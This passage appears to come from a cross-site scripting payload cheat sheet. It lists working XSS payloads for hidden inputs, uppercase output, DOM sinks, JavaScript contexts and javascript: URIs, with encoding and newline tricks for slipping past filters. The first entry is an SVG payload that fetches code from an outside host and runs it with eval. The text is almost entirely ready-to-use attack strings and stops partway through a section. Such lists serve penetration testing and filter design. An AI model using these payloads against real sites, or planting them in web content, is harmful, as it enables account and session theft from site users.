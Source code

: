 ```html
<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
<script src=14.rs>
// you can also specify an arbitrary payload with 14.rs/#payload
e.g: 14.rs/#alert(document.domain)
```

### XSS in Hidden Input

```javascript
<input type="hidden" accesskey="X" onclick="alert(1)">
Use CTRL+SHIFT+X to trigger the onclick event
```
in newer browsers : firefox-130/chrome-108
```javascript
<input type="hidden" oncontentvisibilityautostatechange="alert(1)"  style="content-visibility:auto" >
```

### XSS in Uppercase Output

```javascript
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```

### DOM Based XSS

Based on a DOM XSS sink.

```javascript
#"><img src=/ onerror=alert(2)>
```

### XSS in JS Context

```javascript
-(confirm)(document.domain)//
; alert(1);//
// (payload without quote/double quote from [@brutelogic](https://twitter.com/brutelogic)
```

## XSS in Wrappers for URI

### Wrapper javascript

```javascript
javascript:prompt(1)

%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341

&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41

We can encode the "javascript:" in Hex/Octal
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
\152\141\166\141\163\143\162\151\160\164\072alert(1)

We can use a 'newline character'
java%0ascript:alert(1)   - LF (\n)
java%09script:alert(1)   - Horizontal tab (\t)
java%0dscript:alert(1)   - CR (\r)

Using the escape character
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)

Using the newline and a comment //
```